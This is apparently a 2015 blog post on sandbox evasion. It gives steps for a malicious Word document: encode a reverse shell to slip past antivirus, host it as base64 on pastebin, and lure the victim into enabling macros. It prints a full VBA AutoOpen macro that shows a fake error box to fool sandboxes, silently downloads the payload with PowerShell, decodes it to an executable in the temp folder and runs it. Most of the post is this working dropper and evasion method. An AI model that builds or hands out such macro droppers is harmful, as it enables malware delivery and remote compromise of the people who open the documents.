 ```yaml
---
title: 'Sandbox Evasion & Document Based Attack'
date: 2015-05-21T16:49:00.001+01:00
draft: false
aliases: [ "/2015/05/sandbox-evasion.html" ]
parent: Blogger
---
```

#### date: 2015-05-21

Note to oneself, msgbox is sufficient to break first generation sandboxes. Thank goodness for second generation sandboxes at the CPU level, how's malware going to evade that?  
  
For the test we do a few things!  
  
First you encode your reverse shell umpteen iterations (avoids AV detection), open it in notepad++ and encode it to base64, copy this text and dump it on pastebin. grab the raw url and put it into a word macro like below.  
  
In the document body add some message to enable macro's to decode the content and add some random base64 garbage.  
  
```
Function myPause()  
Dim pausetime, start, finish  
pausetime = 4  
start = Timer  
Do While Timer < start + pausetime  
DoEvents  
Loop  
finish = Timer  
End Function  
  
Sub AutoOpen()  
MsgBox "Encoding Error, Click OK to continue", vbOKOnly  
Shell "cmd /K PowerShell.exe $wc = New-Object System.Net.WebClient; $wc.UseDefaultCredentials = $true; $wc.Proxy.Credentials = $wc.Credentials; $wc.DownloadFile('http://pastebin.com/raw.php?i=base64content','%TEMP%\\b64e.txt')", vbHide  
myPause  
Shell "cmd /K PowerShell.exe Set-Content -Value (\[System.Convert\]::FromBase64String((get-content '%TEMP%\\b64e.txt'))) -Encoding Byte '%TEMP%\\reallybad.exe'", vbHide  
myPause  
Shell "start %TEMP%\\reallybad.exe;", vbHide  
End Sub  

```